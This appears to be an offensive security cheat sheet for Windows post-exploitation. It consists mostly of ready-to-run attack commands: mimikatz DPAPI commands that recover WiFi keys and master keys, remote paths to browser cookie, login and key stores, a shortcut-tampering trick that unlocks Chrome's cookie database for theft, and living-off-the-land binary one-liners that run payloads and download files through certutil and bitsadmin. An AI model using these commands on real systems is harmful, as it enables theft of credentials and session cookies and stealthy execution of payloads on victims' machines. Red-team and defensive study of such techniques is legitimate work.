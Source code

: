 Source : https://tools.thehacker.recipes/mimikatz/modules/dpapi/wifi
```
dpapi::wifi /in:"C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\{xxxx-xxxx-xxx...}\{xxxx-xxx-xxx-*}.xml" /unprotect
```
Extract Master DPAPI Key (run as System or high privs)
Source : https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi
``` 
sekurlsa::dpapi
```
## Interesting browsers files
Chrome:
```
"\\<IP>\c$\Users\<USERNAME>\AppData\Local\Google\Chrome\User Data\Default\Network\Cookies"
"\\<IP>\c$\Users\<USERNAME>\AppData\Local\Google\Chrome\User Data\Default\Logon Data"
"\\<IP>\c$\Users\<USERNAME>\AppData\Local\Google\Chrome\User Data\Default\History"
```
Edge:
```
"\\<IP>\c$\Users\<USERNAME>\AppData\Local\Microsoft\Edge\User Data\Default\Network\Cookies"
"\\<IP>\c$\Users\<USERNAME>\AppData\Local\Microsoft\Edge\User Data\Default\Logon Data"
"\\<IP>\c$\Users\<USERNAME>\AppData\Local\Microsoft\Edge\User Data\Default\History"
```

Firefox:
```
C:\Users\<USER>\AppData\Roaming\Mozilla\Firefox\Profiles\<ProfileName>\cookies.sqlite
C:\Users\<USER>\AppData\Roaming\Mozilla\Firefox\Profiles\<ProfileName>\key4.db
C:\Users\<USER>\AppData\Roaming\Mozilla\Firefox\Profiles\<ProfileName>\logins.json
C:\Users\<USER>\AppData\Roaming\Mozilla\Firefox\Profiles\<ProfileName>\places.sqlite
```
## Disable Google Chrome cookies protection
Source: https://stackoverflow.com/questions/76440733/unable-to-open-cookie-file

add "--disable-features=LockProfileCookieDatabase" into the .lnk shortcuts

Common file locations to replace with the modified .lnk:
```
C:\Users\<USERNAME>\Desktop\Google Chrome.lnk
C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar\Google Chrome.lnk  (taskbar)
C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\Google Chrome.lnk  (Quick Launch)
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Google Chrome.lnk
C:\Users\Public Desktop\Google Chrome.lnk
```
## LOLBINS
Source : 
https://lolbas-project.github.io/#  
https://gtfobins.github.io/

Exec
```
c:\windows\Microsoft.NET\Framework64\v4.0.30319\Msbuild.exe PAYLOAD
wuauclt.exe /UpdateDeploymentProvider <Full_Path_To_DLL> /RunHandlerComServer
bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\users\user1\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset
wlrmdr.exe -s 3600 -f 0 -t Click me! -m To run calculator -a 11 -u calc.exe
```
Download
```
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```